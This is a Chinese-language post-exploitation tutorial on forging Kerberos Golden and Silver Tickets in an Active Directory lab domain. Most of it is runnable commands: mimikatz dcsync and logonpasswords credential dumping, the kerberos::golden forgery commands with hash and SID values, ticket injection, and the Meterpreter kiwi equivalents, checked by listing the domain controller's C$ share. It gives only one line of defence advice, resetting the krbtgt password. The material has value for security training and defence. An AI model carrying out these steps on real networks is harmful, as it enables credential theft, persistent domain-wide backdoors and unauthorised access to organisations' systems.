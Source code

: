 ```yaml
---
title: 【后渗透】黄金票据和白银票据
---
```

## 黄金票据和白银票据

## 黄金票据（Golden Ticket）

> 黄金票据：即伪造的`TGT`票据，当攻击者拥有了高权限的TGT，就可以发送给KDC的TGS 换取`任意Server`的票据（ST）。
>
> 有了金票就有了当前域内的最高控制权限。

金票的**利用原理**是直接跳过了KDC的AS认证过程（AS-REQ、AS-REP通信）。

由于黄金票据是伪造的TGT，它作为TGS-REQ的一部分被发送到KDC的TGS，以获取服务票据ST。

伪造的黄金票据是 有效的TGT票据，因为它是由域账号`krbtgt`的`NTLM Hash`加密和签名的。

TGT用于向KDC的TGS服务证明Client已经过AS认证，TGT可以被该域内的任何KDC服务器解密。

**1、导出`krbtgt`的`NTML Hash`**

域管理员权限运行mimikatz（或其它域主机的本地管理员账号密码和域控相同也行）

```bash
mimikatz.exe "lsadump::dcsync /user:krbtgt" exit

#MSF中的hashdump也可以
meterpreter> hashdump
```

**2、获取域中所有用户SID**

应用的时候，去掉SID最后的数字

```bash
#只要是域用户权限就行
wmic useraccount get name,sid
```

**3、制造黄金票据**

**（1）清空现有票据**

```bash
mimikatz.exe "kerberos::purge" exit
```

**（2）生成票据**

```bash
mimikatz.exe "kerberos::golden /admin:Administrator /domain:wintrysec.lab /sid:S-1-5-21-1160434164-3042164129-2463410311 /krbtgt:a8424e3f13e1253ea732a5245f2f4266 /ticket:Administrator.kiribi" exit
```

**4、将票据注入内存**

```bash
mimikatz.exe "kerberos::ptt Administrator.kiribi" exit
```

**5、检索当前会话中的票据**

```bash
mimikatz.exe "kerberos::tgt" exit
```

**6、权限验证**

列出域控的C盘

```
dir \\DC\c$
```

**使用meterpreter中的kiwi模块** 

```bash
meterpreter> load kiwi

#创建票据
meterpreter> golden_ticket_create -d wintrysec.lab -u Administrator -s S-1-5-21-1160434164-3042164129-2463410311 -k a8424e3f13e1253ea732a5245f2f4266 -t /tmp/krbtgt.ticket

#注入到内存
meterpreter> kerberos_ticket_use /tmp/krbtgt.ticket

#然后验证权限
dir \\DC\c$
```

> **当拿到域控后，通过伪造黄金票据，可以在域中留下一个畅通全域的后门**
>
> **防御方法：**修改域管理员密码后，同时也要修改`krbtgt`用户的密码

## 白银票据 （Silver Ticket）

> **白银票据**：即伪造的`TGS`票据，也称服务票据ST。
>
> 攻击者通过伪造合法的TGS，可以直接发送给Server，访问指定的某个服务。
>
> 当拥有Server(Service) Hash时，我们就可以伪造一个不经过KDC认证的一个Ticket。
>
> Server Session Key在未发送Ticket之前，服务器是不知道Server Session Key是什么的。
>
> 因此，银票的关键也在于Server的HTLM-Hash

**获取Server（目标服务器）的NTML hash**

```bash
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

或MSF模块

```bash
meterpreter > load mimikatz
meterpreter > msv
```

**制造白银票据**

**（1）清空当前系统的票据**

```bash
#使用系统命令
klist purge
```

**（2）伪造票据**

```bash
mimikatz.exe "kerberos::golden /domain:wintrysec.lab /sid:S-1-5-21-1160434164-3042164129-2463410311 /target:DC.wintrysec.lab /service:CIFS /rc4:f0e889883425d83b0071e789507b3e6b /user:admin666 /ptt" exit
```

**（3）验证权限**

```
dir \\DC\c$
```

## 黄金票据和白银票据的不同 

**访问权限不同：**

- Golden Ticket：伪造TGT，可以获取任何Kerberos服务权限
- Silver Ticket：伪造TGS，只能访问指定的服务

**加密方式不同：**

- Golden Ticket由Kerberos的Hash加密
- Silver Ticket由服务账号（通常为计算机账户）Hash加密

**认证流程不同：**

- Golden Ticket的利用过程需要访问域控，
- 而Silver Ticket不需要